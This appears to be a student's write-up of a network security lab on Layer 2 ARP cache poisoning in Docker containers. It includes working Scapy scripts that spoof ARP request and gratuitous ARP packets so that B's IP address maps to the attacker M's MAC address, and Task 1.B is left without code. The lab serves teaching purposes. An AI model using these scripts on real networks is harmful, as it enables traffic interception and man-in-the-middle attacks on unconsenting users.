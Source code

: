 # Layer 2 - ARP Attacks


## Setup:

No acces to GUI -> Send file from local machine to VM

docker-compose build
docker-compose up
docker ps
![alt text](image.png)

Logging into all three containers

finding out Mac-Adress via: ipconfig
Mac Address and IPs

IP Addresses:
```
A: 10.9.0.5
B: 10.9.0.6
M: 10.9.0.105
``` 

MAC Addresses:
```
A: 02:42:0a:09:00:05
B: 02:42:0a:09:00:06
M: 02:42:0a:09:00:69
```

### Task 1.A (using ARP request)
On host M, construct an ARP request packet to map B’s IP address
to M’s MAC address. Send the packet to A and check whether the attack is successful or not.

``` python 
#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "02:42:0a:09:00:05" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #B IP address
 
A.hwdst = "02:42:0a:09:00:05"   #A MAC address
A.pdst  = "10.9.0.5"            #A IP address
 
pkt = E/A
sendp(pkt)
```

![alt text](image-1.png)



### Task 1.B (using ARP reply) 
On host M, construct an ARP reply packet to map B’s IP address to
M’s MAC address. Send the packet to A and check whether the attack is successful or not.



### Task 1.C (using ARP gratuitous message)
On host M, construct an ARP gratuitous packet, and use
it to map B’s IP address to M’s MAC address. Please launch the attack under the same two scenarios
as those described in Task 1.B.
ARP gratuitous packet is a special ARP request packet. It is used when a host machine needs to
update outdated information on all the other machine’s ARP cache. The gratuitous ARP packet has
the following characteristics:
– The source and destination IP addresses are the same, and they are the IP address of the host
issuing the gratuitous ARP.
– The destination MAC addresses in both ARP header and Ethernet header are the broadcast MAC
address (ff:ff:ff:ff:ff:ff).
– No reply is expected.

``` python
#!/usr/bin/env python3
from scapy.all import *
 
E = Ether()
 
E.dst = "ff:ff:ff:ff:ff:ff" #A MAC address
E.src = "02:42:0a:09:00:69" #M MAC address
 
A = ARP()
A.op    = 1                     # 1 for ARP request; 2 for ARP reply
A.hwsrc = "02:42:0a:09:00:69"   #M MAC address
A.psrc  = "10.9.0.6"            #B IP address
 
A.hwdst = "ff:ff:ff:ff:ff:ff"   #A MAC address
A.pdst  = "10.9.0.6"            #A IP address
 
pkt = E/A
sendp(pkt)
```
